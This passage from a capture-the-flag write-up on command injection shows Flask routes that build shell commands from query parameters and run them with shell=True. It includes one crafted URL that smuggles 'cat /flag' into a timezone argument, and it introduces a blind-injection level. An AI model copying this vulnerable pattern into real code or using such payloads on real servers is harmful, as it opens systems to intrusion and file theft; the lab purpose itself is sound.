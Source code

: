 ```python
@app.route("/milestone", methods=["GET"])
def challenge():
    arg = flask.request.args.get("tzone", "MST")
    command = f"TZ={arg} date"

    print(f"DEBUG: {command=}")
    result = subprocess.run(
        command,  # the command to run
        shell=True,  # use the shell to run this command
        stdout=subprocess.PIPE,  # capture the standard output
        stderr=subprocess.STDOUT,  # 2>&1
        encoding="latin",  # capture the resulting output as text
    ).stdout
```

2. craft url that break the command to 3 commands

So that the server will do - `command = TZ=1; cat /flag; date` 

```
curl challenge.localhost/milestone?tzone=1%3B+cat+%2Fflag%3B
```
---

# 5

## Description

Programs tend to shell out to do complex internal computation. This means that you might not always get sent the resulting output, and you will need to do your attack blind. Try it in this level: without the output of your injected command, get the flag!

## Solution

1. 

```python
@app.route("/adventure", methods=["GET"])
def challenge():
    arg = flask.request.args.get("target-file", "/challenge/PWN")
    command = f"touch {arg}"

    print(f"DEBUG: {command=}")
    result = subprocess.run(
        command,  # the command to run
        shell=True,  # use the shell to run this command
        stdout=subprocess.PIPE,  # capture the standard output
        stderr=subprocess.STDOUT,  # 2>&1
        encoding="latin",  # capture the resulting output as text
    ).stdout

    return f"""
        <html><body>
        Welcome to the touch service! Please choose a file to touch:
        <form action="/adventure"><input type=text name=target-file><input type=submit value=Submit></form>
        <hr>
        <b>Ran {command}!</b><br>
        </body></html>
        """
```
